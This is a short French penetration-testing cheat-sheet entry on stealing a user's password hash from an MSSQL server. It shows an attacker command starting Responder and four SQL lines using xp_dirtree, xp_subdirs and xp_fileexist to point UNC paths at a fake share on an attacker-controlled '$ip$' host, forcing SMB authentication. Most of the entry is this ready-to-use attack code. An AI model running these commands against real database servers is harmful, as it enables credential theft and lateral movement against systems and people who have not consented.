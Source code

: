 Une fois connecté sur un serveur MSSQL il peut être possible d'accéder à un partage SMB via la commande xp_dirtree / xp_subdir / xp_fileexist, ce qui peut possiblement permettre de récupérer le hash de l'utilisateur:

Sur le poste attaquant:

```bash
sudo responder -I tun0
```

Sur MSSQL:

```sql
xp_dirtree '\\$ip$\fauxpartage'
exec master.dbo.xp_dirtree '\\$ip$\fauxpartage'
EXEC master..xp_subdirs '\\$ip$\fauxpartage'
EXEC master..xp_fileexist '\\$ip$\fauxpartage'
```
